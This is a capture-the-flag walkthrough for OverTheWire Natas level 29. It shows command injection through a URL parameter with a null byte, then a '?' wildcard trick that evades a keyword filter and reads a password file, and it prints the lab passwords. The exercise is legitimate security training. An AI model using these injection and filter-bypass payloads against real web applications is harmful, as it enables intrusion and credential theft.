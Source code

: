 # Natas CTF Solutions  

## Natas Level 29  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Exploit **null byte injection** and **command injection** to read the password file for the next level.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas29.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas29`  
- **Password:** Use the password from Natas Level 28:  
```
1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj
```  

![image](https://github.com/user-attachments/assets/e1a65c89-f557-4810-a37c-f89956e6209d)

---

### **Step 3: Command Injection Attempt**  
1. The challenge accepts a `file` parameter that can be used for command injection.  
2. First, test for command injection using:  
```  
http://natas29.natas.labs.overthewire.org/index.pl?file=|ls%00  
```  
- The `|ls` part executes the `ls` command.  
- `%00` is a **null byte** used to terminate the string, which helps bypass input validation.  

✅ **Success:** It lists the contents of the directory:  
```
index.pl
```  

![image](https://github.com/user-attachments/assets/8ec3c5b2-4a1a-4ce7-935d-f634f3a3fac8)

---

### **Step 4: Extract the Password**  
1. Next, try reading the password file:  
```  
|cat /etc/natas_webpass/natas30  
```  
2. This command will fail due to input filtering, returning:  
```
meep!
```  

![image](https://github.com/user-attachments/assets/8315903a-1572-4d88-ac81-7507d2295130)

✅ **Why?**  
- The filtering mechanism likely blocks the keyword **"natas."**  

---

### **Step 5: Bypass Filtering with Wildcards**  
Instead of using `natas`, use the `?` wildcard:  
- `?` matches a single character — bypassing the filter.  

```  
|cat /etc/n?tas_webpass/n?tas30 %00  
```  

✅ **Success:** This prints the password for the next level!  

![Password](https://github.com/user-attachments/assets/160b7c78-393f-4662-ba24-61fbe5348464)

---

### **✅ Password for Natas Level 30**  
```
WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH
```

---

## 💡 **Lessons Learned**  
✔️ **Command Injection:** Injecting shell commands via URL parameters.  
✔️ **Null Byte Injection:** `%00` can terminate strings and bypass input validation.  
✔️ **Wildcard Injection:** `?` wildcard bypasses keyword filters.  
✔️ **Input Sanitization:** Always sanitize and validate user inputs to prevent command execution.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 3 – Command Injection | ![image](https://github.com/user-attachments/assets/8ec3c5b2-4a1a-4ce7-935d-f634f3a3fac8) |  
| Step 5 – Bypass Filtering | ![Password](https://github.com/user-attachments/assets/160b7c78-393f-4662-ba24-61fbe5348464) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 30**:  
👉 [http://natas30.natas.labs.overthewire.org](http://natas30.natas.labs.overthewire.org)  

---

